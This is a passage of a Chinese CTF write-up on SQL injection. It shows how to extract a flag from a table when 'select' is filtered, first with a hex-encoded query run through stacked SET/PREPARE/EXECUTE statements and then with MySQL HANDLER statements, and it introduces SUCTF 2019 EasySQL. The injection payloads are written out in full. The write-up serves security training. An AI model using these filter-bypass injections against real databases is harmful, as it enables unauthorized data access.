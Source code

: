 成功回显flag：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697697090390-89609906-a4ad-4468-a7e2-f7f80af43f92.png#averageHue=%23f9f9f9&clientId=udbb228e3-387b-4&from=paste&height=160&id=u0a645650&originHeight=200&originWidth=562&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=4858&status=done&style=none&taskId=u70786f3d-e5fa-45cd-baa4-b77d8e0381c&title=&width=449.6)<br />注意没有回显flag，就类似于你更新了个东西但是没刷新，重新在文本框里面输入1提交即可回显flag。
<a name="z4q8F"></a>
#### 第二种解法 编码逃逸 绕过滤
由于select被过滤，考虑使用编码进行绕过<br />使用select查询就很简单了<br />构造payload<br />`select *from where `1919810931114514`` (注意这里使用反引号把这个数字括起来，md编辑器打不上去）<br />*号查询数据表里面的全部内容，这就是爆出flag的原理<br />进行16进制编码加密<br />`73656c656374202a2066726f6d20603139313938313039333131313435313460`<br />最终payload：<br />`1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#`
> - prepare…from…是预处理语句，会进行编码转换。
> - execute用来执行由SQLPrepare创建的SQL语句。
> - SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。
> - 0x就是把后面的编码格式转换成十六进制编码格式
> - 那么总体理解就是，使用SeT方法给变量a赋值，给a变量赋的值就是select查询1919810931114514表的所有内容语句编码后的值，execsql方法执行来自a变量的值，prepare...from方法将执行后的编码变换成字符串格式，execute方法调用并执行execsql方法。
> 
参考：https://blog.csdn.net/qq_44657899/article/details/10323914

回显flag：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697700472481-49c8e237-7ee4-4891-8d17-1e0f629d2269.png#averageHue=%23f4f4f3&clientId=udbb228e3-387b-4&from=paste&height=300&id=u6e106fb7&originHeight=375&originWidth=1179&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27185&status=done&style=none&taskId=ue157f737-b168-481f-bee8-9cfb66d5a39&title=&width=943.2)
<a name="E2zV0"></a>
#### 第三种解法 handler代替select
select命令被过滤了怎么办？我们还可以用handler命令进行查看，handler命令可以一行一行的显示数据表中的内容。<br />构造payload：<br />`1'; handler `1919810931114514` open as `a`; handler `a` read next;#`
> handler代替select，以一行一行显示内容
> open打开表
> as更改表的别名为a
> read next读取数据文件内的数据次数

上传payload，回显flag：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697701424155-918f1774-b39e-49a8-9e74-38b197ba782f.png#averageHue=%23f3f3f2&clientId=udbb228e3-387b-4&from=paste&height=300&id=u60b52bd2&originHeight=375&originWidth=1111&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26741&status=done&style=none&taskId=u5ac40b9a-50bd-40ff-b710-cc007a9f140&title=&width=888.8)<br />原文链接：[https://blog.csdn.net/m0_73734159/article/details/134049744?spm=1001.2014.3001.5501](https://blog.csdn.net/m0_73734159/article/details/134049744?spm=1001.2014.3001.5501)
<a name="zzKCR"></a>
## 数字型注入和堆叠查询手法原理
<a name="gjjce"></a>
### 【例题】[SUCTF 2019]EasySQL 1
题目环境：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698664486260-6f6c0019-9130-4140-a1b2-9cceb09022f5.png#averageHue=%23f8f7f5&clientId=u0afe607f-2d1f-4&from=paste&height=202&id=uf83fd9bc&originHeight=253&originWidth=876&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=21417&status=done&style=none&taskId=u889268b8-2948-42df-b872-3ff591d0b4b&title=&width=700.8)
> 把你的旗子给我，我会告诉你旗子是不是对的。
